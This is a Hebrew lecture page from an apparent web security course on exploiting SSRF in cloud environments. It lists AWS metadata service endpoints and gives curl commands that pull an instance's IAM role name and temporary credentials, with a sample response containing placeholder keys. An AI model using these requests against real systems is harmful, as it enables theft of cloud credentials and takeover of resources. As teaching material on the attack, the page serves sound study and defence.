

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/7 - תקיפות צד שרת מתקדמות/7.2 - תקיפת ענן דרך SSRF/7.2 - תקיפת ענן דרך SSRF - הרצאה/index.html · generator: mkdocs

# תקיפת ענן דרך SSRF - Cloud Exploitation via SSRF

## מבוא

אחד היעדים המשמעותיים ביותר של SSRF בסביבות ענן הוא שירות ה-Metadata. כל ספק ענן מספק שירות פנימי שדרכו מכונות וירטואליות יכולות לגשת למידע על עצמן - כולל הרשאות גישה. תוקף שמצליח לבצע SSRF יכול לגנוב את ההרשאות ולהשתלט על משאבי הענן.

![איור המתאר כיצד מקור הבקשה עובר מהתוקף אל השרת הפגיע, שממנו הבקשה מגיעה לשירות המטא-דאטה הפנימי בכתובת 169.254.169.254 ומחזירה את הרשאות ה-IAM של השרת לידי התוקף](../../../images/illustrations/webadv-7-2-metadata-origin.svg)

## שירות Metadata של AWS - IMDSv1

### כתובת הבסיס

שירות ה-Metadata של AWS זמין בכתובת קבועה שאינה ניתנת לשינוי:

```
http://169.254.169.254/latest/meta-data/
```

### מידע זמין

```bash
# Basic information about the machine
http://169.254.169.254/latest/meta-data/instance-id
http://169.254.169.254/latest/meta-data/instance-type
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/local-ipv4
http://169.254.169.254/latest/meta-data/public-ipv4

# Network information
http://169.254.169.254/latest/meta-data/network/interfaces/macs/
http://169.254.169.254/latest/meta-data/placement/availability-zone
http://169.254.169.254/latest/meta-data/placement/region

# user-data - scripts that run at startup (sometimes contain secrets)
http://169.254.169.254/latest/user-data
```

### הextraction הרשאות IAM

זו המטרה העיקרית - גניבת הרשאות הגישה לענן:

```bash
# Step 1: find the Role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Response: MyEC2Role

# Step 2: extract the credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/MyEC2Role
```

תשובה לדוגמה:
```json
{
  "Code": "Success",
  "LastUpdated": "2024-01-15T12:00:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA1234567890EXAMPLE",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "FwoGZXIvYXdzEBYaDH...(long session token)...",
  "Expiration": "2024-01-15T18:00:00Z"
}
```
